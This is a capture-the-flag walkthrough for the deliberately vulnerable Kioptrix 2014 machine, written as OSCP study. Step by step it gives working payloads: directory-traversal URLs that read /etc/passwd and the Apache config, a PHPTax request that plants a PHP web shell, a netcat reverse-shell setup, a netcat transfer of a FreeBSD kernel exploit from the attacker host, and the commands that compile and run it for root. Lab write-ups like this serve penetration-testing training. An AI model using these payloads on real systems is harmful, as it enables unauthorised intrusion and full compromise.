 ```yaml
---
layout: post
title: " Kioptrix - 2014"
date: 2020-08-11
ctf: true
excerpt: "Walkthrough for Kioptrix 2014 on Vulnhub"
tags: [pChart 2.1.3, PHPTax, FreeBSD 9.0 kernel exploit]
comments: false
---
```

[Kioptrix]( https://www.vulnhub.com/entry/kioptrix-2014-5,62/) 2014 is a vulnerable machine found on the [NetSecFocus Trophy Room](https://docs.google.com/spreadsheets/d/1dwSMIAPIam0PuRBkCiDI88pU3yzrqqHkDtBngUHNCw8/edit#gid=0) list which I have been using as preparation for the OSCP. Below is a walkthrough to compromise this machine.

First, after downloading and importing the machine into VMware, I had to figure out the IP address of the machine. I used **netdiscover -i eth0** until I came across the IP of this machine.

![Kioptrix 2014 netdiscover](/assets/img/KioptrixLevel20141.png)

Next I ran **threader3000** to enumerate the ports and let it complete it's suggested nmap scan

![Kioptrix 2014 threader3000 nmap](/assets/img/KioptrixLevel20142.png)

It appears we have two websites open on ports 80 and 8080, let's take a look at both. Let's start with the one on port 80 first.

![Kioptrix 2014 port 80 website](/assets/img/KioptrixLevel20143.png)

This appears to just be the default Apache webpage on older versions of Apache. Let's look at port 8080 next.

![Kioptrix 2014 Port 8080 website](/assets/img/KioptrixLevel20144.png)

I attempted to enumerate the site and gobuster was receiving a numerous amount of errors due to too many requests to both websites, so I decided to look at the source code of the sites, starting with the site on port 80 first. This is where I came across a comment that pointed to a potential directory.

![Kioptrix 2014 port 80 source code](/assets/img/KioptrixLevel20145.png)

I navigated to **/pChart2.1.3/index.php** and the page below appeared.

![Kioptrix 2014 pChart 2.1.3](/assets/img/KioptrixLevel20146.png)

This looked like it rendered various chart types. A quick search for pChart 2.1.3 exploits led me to this article on [exploit-db](https://www.exploit-db.com/exploits/31173). After reviewing the exploit, it appears that we can use it to display data in a file. Let's **runhttp://[machine ip]/pChart2.1.3/examples/index.php?Action=View&Script=%2f..%2f..%2fetc/passwd** and see what happens.

![Kioptrix 2014 /etc/passwd](/assets/img/KioptrixLevel20147.png)

We are able to view /etc/passwd and uncover that this is running FreeBSD. We know we were not able to get into the website on port 8080, so let's view the apache.conf file with this exploit. A quick Google search turns up [this](https://www.freebsd.org/doc/handbook/network-apache.html) documentation from the FreeBSD website - Apache's default configuration file is found at **/usr/local/etc/apache2x/httpd.conf**, where the x is the version number. With the version in nmap listed as 2.2 earlier, I entered the following **http://[[machine ip]]/pChart2.1.3/examples/index.php?Action=View&Script=%2f..%2fusr/local/etc/apache22/httpd.conf**. This pulled up the main Apache configuration file as shown below:

![Kioptrix 2014 Apache configuration](/assets/img/KioptrixLevel20148.png)

At the bottom of the configuration file is the configuration for the website on port 8080. It appears we can access it using a **Mozilla4 browser** user agent.

![Kioptrix 2014 Apache Configuration User Agent](/assets/img/KioptrixLevel20149.png)

Next, I installed [User-Agent Switcher and Manager](https://addons.mozilla.org/en-US/firefox/addon/user-agent-string-switcher/) in Firefox which allows you to switch user agents. I then switched my user agent to **Mozilla/4.0** and clicked on **Apply** (active window).

![Kioptrix 2014 User Agent](/assets/img/KioptrixLevel201410.png)

Next, I navigated to **http://[machine ip]:8080** and I was now able to access this directory. It contains a folder named **phptax**

![Kioptrix 2014 port 8080 website](/assets/img/KioptrixLevel201411.png)

Let's take a look at this site. It appears it is some sort of tax preparation software.

![Kioptrix 2014 PHPTax](/assets/img/KioptrixLevel201412.png)

Let's see if there are any known exploits for this software. I ran **searchsploit phptax** from my attacker PC and 3 results came up.

![Kioptrix 2014 searchsploit](/assets/img/KioptrixLevel201413.png)

I tried all 3 of these exploits and unfortunately was not able to get any of them to work. However, I took a look at the source code of these 3 exploits (this can be done with searchsploit -x [exploit #]). When I ran **searchsploit -x 25849**, I noticed something interesting even though it did not work when I ran it normally.

![Kioptrix 2014 25849 exploit](/assets/img/KioptrixLevel201414.png)

It appears that this creates a php file named **rce.php**. I ran this by typing in **http://[machine ip]:8080/phptax/index.php?field=rce.php&newvalue=%3C%3Fphp%20passthru(%24_GET%5Bcmd%5D)%3B%3F%3E";** I didn't get any errors, but I wasn't sure where it saved rce.php to. Poking around it appears that by looking at the **view** portions of the images shows a **/data/pdf** directory I navigated there and it looks like there was some cleanup that hadn't been done from testing on this box initially.

![Kioptrix 2014 /phptax/data/pdf directory](/assets/img/KioptrixLevel201415.png)

unfortunately, rce.php was not here. I moved up to the parent directory. There it is!

![Kioptrix 2014 rce.php location](/assets/img/KioptrixLevel201416.png)

Let's run **http://[machine ip]:8080/phptax/data/rce.php?cmd=id** and see what happens.

![Kioptrix 2014 command injection](/assets/img/KioptrixLevel201417.png)

Great, now we can perform command injection. Let's open up a netcat listener on our attacker pc with **nc -nvlp 4444**.

![Kioptrix 2014 nc listener](/assets/img/KioptrixLevel201418.png)

I tried various [reverse shells](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet), and the Perl one worked (after I [url encoded](https://www.urlencoder.org/) it). Once encoded, paste this command after the **rce.php?cmd=** portion and press enter. You should now have a reverse shell.

![Kioptrix 2014 reverse shell](/assets/img/KioptrixLevel201419.png)

Let's run **uname -a**, we can see this is running FreeBSD 9.0

![Kioptrix 2014 uname -a](/assets/img/KioptrixLevel201420.png)

In another tab on our attacker pc, let's run **searchsploit FreeBSD 9.0**. 

![Kioptrix 2014 searchsploit freebsd 9.0](/assets/img/KioptrixLevel201421.png)

Let's copy the first one listed to our current folder with **searchsploit -m 28718**.

![Kioptrix 2014 28718.c](/assets/img/KioptrixLevel201422.png)

Let's go back to our foothold on the victim computer and see if gcc is present to compile this program.

![Kioptrix 2014 which gcc](/assets/img/KioptrixLevel201423.png)

It is present on our victim. Now we need to get the exploit over to the victim computer. Unfortunately, wget is not installed. Fortunately, we can copy this over with netcat, which is present on our victim computer.

![Kioptrix 2014 wget nc](/assets/img/KioptrixLevel201424.png)

On our **attacker** pc, let's run **nc -lp 4567 < 28718.c**

![Kioptrix 2014 nc send file](/assets/img/KioptrixLevel201425.png)

Next, on our **victim** pc, let's run **nc [attacker ip] 4567 > 28718.c**. 

![Kioptrix 2014 nc receive file](/assets/img/KioptrixLevel201426.png)

After a few seconds, terminate netcat on the attacker pc with CTRL+C. Go back to the attacker pc and run **gcc -o 28718 28718.c**

![Kioptrix 2014 gcc compile](/assets/img/KioptrixLevel201427.png)

Now, run the exploit with **./28718** and run **whoami**. We are now root!

![Kioptrix 2014 run exploit](/assets/img/KioptrixLevel201428.png)

Now, let's run **cd /root** and **ls -al**. You will see a congrats.txt file in there, so run **cat congrats.txt** to finish this box!

![Kioptrix 2014 root access](/assets/img/KioptrixLevel201429.png)



